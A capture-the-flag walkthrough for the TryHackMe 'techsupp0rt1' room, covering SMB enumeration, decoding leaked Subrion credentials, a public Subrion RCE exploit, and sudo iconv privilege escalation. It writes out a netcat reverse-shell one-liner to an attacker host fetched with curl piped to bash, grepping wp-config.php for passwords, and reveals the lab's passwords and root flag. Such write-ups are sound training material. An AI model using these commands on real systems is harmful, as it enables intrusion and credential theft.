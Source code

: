 # Room: [techsupp0rt1](https://tryhackme.com/room/techsupp0rt1) (*Hack into the scammer's under-development website to foil their plans.*)


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

- Samba looks intersting :eye:

```bash
smbclient -N -L \\\\$IP\\   

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- And sure enough this share websvr is intersting so let's grab the enter.txt file:

```bash
smbclient -N \\\\10.10.213.5\\websvr

smb: \> ls
  .                                   D        0  Sat May 29 09:17:38 2021
  ..                                  D        0  Sat May 29 09:03:47 2021
  enter.txt                           N      273  Sat May 29 09:17:38 2021

                8460484 blocks of size 1024. 5627800 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)

```

It gaves quite juicy info:

```bash
cat enter.txt      
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

```
- Ok so the magical formula was pretty easy thanks to https://gchq.github.io/CyberChef/ I was able to get the admin pass in plaintext!
- So what am I looking for :D probably a way to escalte on Subrion CMS security breach.
- He took me a while to figure out where the panel exactly was, as I was blindly folllwing my gobuster/feroxbuster/dirb results 

<details>
  <summary>Click to reveal the admin pass!</summary>

  ```bash
  Scam2021
  ```
</details>

However the following IP trick me while I was looking for the redirect though:

```bash
curl -IXGET http://techsupp0rt1/subrion -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/
Content-Length: 314
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 302 Found
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; expires=Wed, 20-Apr-2022 21:22:52 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

And fair enough I found the path I was looking for:

```bash
curl -IXGET http://techsupp0rt1/subrion/panel -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/panel/
Content-Length: 320
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; expires=Wed, 20-Apr-2022 21:24:54 GMT; Max-Age=1800; path=/
X-Robots-Tag: noindex
Vary: Accept-Encoding
Content-Length: 6203
Content-Type: text/html;charset=UTF-8
```

So let's have fun thanks to https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE 

```bash
$ pwd
/var/www/html/subrion/uploads

$ ls -larth /home
total 12K
drwxr-xr-x 23 root     root     4.0K May 28  2021 ..
drwxr-xr-x  3 root     root     4.0K May 28  2021 .
drwxr-xr-x  4 scamsite scamsite 4.0K May 29  2021 scamsite

```

So I found the scamsite user home however as I crashed the shell while trying to stabilize it I decided to upload and running it from the victim machine like so :

on attacker machine:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip 4242 >/tmp/f" > lol.sh
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
rlwrap nc -nlvp 4242 
```

on victim machine:
```bash
curl attacker_ip:8000/lol.sh | bash
```

Ok so after stabilizing it I was able to start investagting in a more "convenient" way:

```bash
/var/www/html/wordpress$ grep -iE 'user|pass' wp-con*
wp-config.php:/** MySQL database username */
wp-config.php:define( 'DB_USER', 'support' );
wp-config.php:/** MySQL database password */
wp-config.php:define( 'DB_PASSWORD', 'Im{REDACTED}3!' );
wp-config.php: * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

```

<details>
  <summary>Click to reveal the DB password!</summary>
  
  ```bash
  ImAScammerLOL!123!
  ```
</details>

> The support user was also the one we discovered while quiclky brownsing the wordpress site.

## Basic connection

I used this password with the scamsite username and...it works !
So I did the following steps to get the root flag:

```bash
ssh scamsite@$IP
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ man iconv
scamsite@TechSupport:~$ ls /root/root.txt
ls: cannot access '/root/root.txt': Permission denied
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
851b{REDACTED}790b  -

```

Thanks to [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/iconv/#sudo) :point_left:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  851b8233a8c09400ec30651bd1529bf1ed02790b 
  ```
</details>
 
Houra :partying_face:



### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)

[revshells](https://www.revshells.com/)

[gtfobins](https://gtfobins.github.io/)

[h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)
